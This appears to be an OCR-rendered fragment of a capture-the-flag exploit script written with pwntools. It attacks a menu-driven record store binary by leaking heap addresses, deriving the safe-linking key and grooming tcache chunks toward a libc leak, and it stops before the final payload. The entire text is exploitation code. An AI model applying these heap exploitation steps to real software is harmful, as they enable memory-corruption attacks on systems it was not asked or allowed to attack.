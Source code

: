 ```python
sa = lambda x,y:p.sendafter(x,y)
sla = lambda x,y:p.sendlineafter(x,y)
suc = lambda x,y:success(x+" -> "+y)
#---------------------------------------------------#
def db() :
    gdb.attach(p)
    pause()
#table
#0x0 ptr = malloc0x400
#0x8 next_size_array
#0x10 end = ptr+0x400
#0x18 length
#record
#0x0 length
#0x8 ptr = malloc(length)
def create(index):
    sla(b'>>> ',str(1).encode())
    sla(b'Index: ',str(index).encode())
def remove(index):
    sla(b'>>> ',str(2).encode())
    sla(b'Index: ',str(index).encode())
def insert(index,len,varchar):
    sla(b'>>> ',str(3).encode())
    sla(b'Index: ',str(index).encode())
    sla(b'Varchar Length: ',str(len).encode())
    sla(b'Varchar: ',varchar)
    til(b'Record inserted, slot id: ')
    slot_id = int(til(b'\n'))
    return slot_id
def get(index,slot_ID):
    sla(b'>>> ',str(4).encode())
    sla(b'Index: ',str(index).encode())
    sla(b'Slot ID: ',str(slot_ID).encode())
def edit(index,slot_ID,len,varchar):
    sla(b'>>> ',str(5).encode())
    sla(b'Index: ',str(index).encode())
    sla(b'Slot ID: ',str(slot_ID).encode())

    sla(b'Varchar Length: ',str(len).encode())
    sa(b'Varchar: ',varchar)
p = start()
create(1)
create(2)
create(3)
create(15)
remove(1)
slot_id1 = insert(2,0x20,b'')
get(2,slot_id1)
#heap
til(b'Varchar: ')
p.recv(0x10) 
heap2 = u64(p.recv(6) + b'\x00\x00')
suc('heap',hex(heap2))
heap_key = heap2 >> 12
#libc
for i in range(4,11):
    create(i)
for i in range(11,4,-1):
    remove(i)
remove(3)
remove(4)
slot_id2 = insert(2,0x3d9,b'')
get(2,slot_id2)
```